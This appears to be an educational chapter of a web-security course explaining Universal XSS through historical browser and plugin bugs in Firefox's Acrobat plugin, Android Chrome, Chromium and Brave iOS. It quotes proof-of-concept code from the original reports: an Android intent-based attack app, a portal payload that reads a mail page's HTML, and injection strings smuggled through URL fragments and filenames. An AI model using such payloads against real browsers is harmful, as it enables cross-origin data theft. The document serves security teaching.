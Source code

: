 ```yaml
---
sidebar_position: 12
---
```


# The Strongest XSS: Universal XSS

All the XSS vulnerabilities we mentioned earlier are mostly caused by negligence on the part of the website itself, allowing attackers to execute JavaScript code on the website.

However, there is another type of XSS that is even more powerful, as the title suggests: Universal XSS.

The reason is simple: this type of XSS attack targets not the website itself, but the browser or built-in plugins.

Since it is a vulnerability in the browser, the website itself does not need to have any issues. Even a purely static webpage can be vulnerable to XSS. By attacking the browser, the impact achieved is "the ability to execute code on any website." Therefore, this type of attack is called Universal XSS, or UXSS for short.

So how are UXSS vulnerabilities created? Let's look at a few examples.

## Firefox's Adobe Acrobat Plugin in 2006

In a paper titled [Subverting Ajax](https://fahrplan.events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf), a UXSS targeting Firefox is described.

The Adobe Acrobat plugin on Firefox had a vulnerability where it did not properly check parameters. By loading a PDF and appending the parameter `#FDF=javascript:alert(1)` to the URL, XSS could be executed within that PDF.

For example, `https://example.com/test.pdf#FDF=javascript:alert(1)`. Simply loading this URL would execute JavaScript code on the origin `https://example.com`, which is known as UXSS.

Although the original paper did not provide detailed information, I assume the underlying principle is that the plugin uses the value passed by the `FDF` parameter to execute functions like `window.open`, allowing the execution of code using the `javascript:` pseudo-protocol.

## Android Chrome's UXSS in 2012

In 2012, Takeshi reported a vulnerability: [Issue 144813: Security: UXSS via com.android.browser.application_id Intent extra](https://bugs.chromium.org/p/chromium/issues/detail?id=144813).

In the world of Android, there is something called an "intent," which represents an "intention." For example, if you want to open a new screen, you send an intent saying "I want to open a new screen."

If you want to open Chrome and browse a specific page, you can write corresponding code based on this intention:

``` java
// 宣告新的 intent
Intent intent = new Intent("android.intent.action.VIEW");

// intent 要傳給的對象是 Chrome app
intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");

// 設置要開啟的 URL
intent.setData(Uri.parse("https://example.com"));

// 開啟
startActivity(intent);
```

In 2012, someone discovered that by first opening `https://example.com` and then opening `javascript:alert(1)`, code could be executed on the `https://example.com` URL, resulting in a UXSS vulnerability.

The complete code looks like this (code from the original report):

``` java
package jp.mbsd.terada.attackchrome1;

import android.app.Activity;
import android.os.Bundle;
import android.content.Intent;
import android.net.Uri;

public class Main extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        doit();
    }

    public void doit() {
        try {
            // Firstly, force chrome app to open a target Web page
            Intent intent1 = getIntentForChrome("http://www.google.com/1");
            startActivity(intent1);

            // Wait a few seconds
            Thread.sleep(5000);

            // JS code to inject into the target (www.google.com)
            String jsURL = "javascript:alert('domain='+document.domain)";

            Intent intent2 = getIntentForChrome(jsURL);

            // Need a trick to prevent Chrome from loading the new URL in a new tab
            intent2.putExtra("com.android.browser.application_id", "com.android.chrome");

            startActivity(intent2);
        }
        catch (Exception e) {}
    }

    // Get intent to invoke chrome app
    public Intent getIntentForChrome(String url) {
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");
        intent.setData(Uri.parse(url));
        return intent;
    }
}
```

## Chromium's UXSS via portal in 2019

In 2019, Michał Bentkowski reported a vulnerability: [Issue 962500: Security: Same Origin Policy bypass and local file disclosure via portal element](https://bugs.chromium.org/p/chromium/issues/detail?id=962500&q=sop%20bypass&can=1). This UXSS was executed through the latest feature `<portal>`.

The cause of this vulnerability is similar to the Android case mentioned earlier. Here is an example code snippet (from the original report):

``` js
const p = document.createElement('portal');
p.src = 'https://mail.google.com';
// after a while:
p.src = 'javascript:portalHost.postMessage(document.documentElement.outerHTML,"*")';
// the code above will get executed in the context of https://mail.google.com
```

When you load a URL inside a portal and then load `javascript:`, it will execute JavaScript on the origin of the previously loaded URL. In other words, you can execute JavaScript on any URL, making it a UXSS. This vulnerability was rewarded with a $10,000 bounty.

## Chromium's UXSS triggered by downloading images in 2021

When you right-click on an image in Chromium and choose to download it, Chromium dynamically executes a piece of JavaScript code in the background. It calls internal JavaScript functions, like this:

``` js
__gCrWeb.imageFetch.getImageData(id, '%s')
```

Here, `%s` is the filename of the image. However, this filename was not properly filtered, so if the filename is `'+alert(1)+'`, the code will become:

``` js
__gCrWeb.imageFetch.getImageData(id, ''+alert(1)+'')
```

This will execute `alert(1)`. Of course, you can replace it with any code. `alert(1)` is just an example.

In addition, if there is a domain A that embeds domain B using an iframe, when you download an image on domain B, this dynamically generated JavaScript code will be executed in the top-level window, which is the domain A's window.

In other words, by exploiting this vulnerability, if I can embed my attack URL in another domain using an iframe, I can execute arbitrary code on that domain, resulting in UXSS.

The original report and PoC can be found in the report by Muneaki Nishimura: [Issue 1164846: Security: ImageFetchTabHelper::GetImageDataByJs allows child frames to inject scripts into parent (UXSS)](https://bugs.chromium.org/p/chromium/issues/detail?id=1164846)

## Multiple UXSS in Brave Browser iOS App

Brave is a privacy-focused browser based on Chromium, founded by Brendan Eich, the creator of JavaScript. The iOS app of Brave has been found to have multiple UXSS vulnerabilities by Japanese security researcher Muneaki Nishimura (he also reported the UXSS in Chromium mentioned above).

The cause of these vulnerabilities is similar to what was mentioned earlier. It is due to the app dynamically executing JavaScript code without properly filtering the input, resulting in the generation of UXSS.

For example, there might be a piece of code like this:

``` swift
self.tab?.webview?.evaluateJavaScript("u2f.postLowLevelRegister(\(requestId), \(true), '\(version)')")
```

And we can control the `version` variable. At the same time, this script is executed at the top level, allowing sub frames to attack the parent and perform XSS on other origins.

For more details, refer to Muneaki Nishimura's presentation: [Brave Browserの脆弱性を見つけた話（iOS編）](https://speakerdeck.com/nishimunea/brave-browsernocui-ruo-xing-wojian-tuketahua-iosbian)

## Conclusion

UXSS vulnerabilities like these are usually beyond the control of websites because the vulnerability lies in the browser itself, not the website.

For browsers, this is actually a significant vulnerability. Just think about it, if an attacker successfully exploits UXSS, they can read your Gmail, read your Facebook messages, and take away all your data. It is a very frightening situation.

As users, all we can do is keep our browsers updated to the latest version and hope that vendors promptly fix these vulnerabilities.

UXSS vulnerabilities are relatively severe and there are fewer cases. Most of them are from a long time ago (e.g., ten years ago). You can try to find UXSS vulnerabilities that have occurred in the past (excluding the ones mentioned above) and share them with others in the comments section.
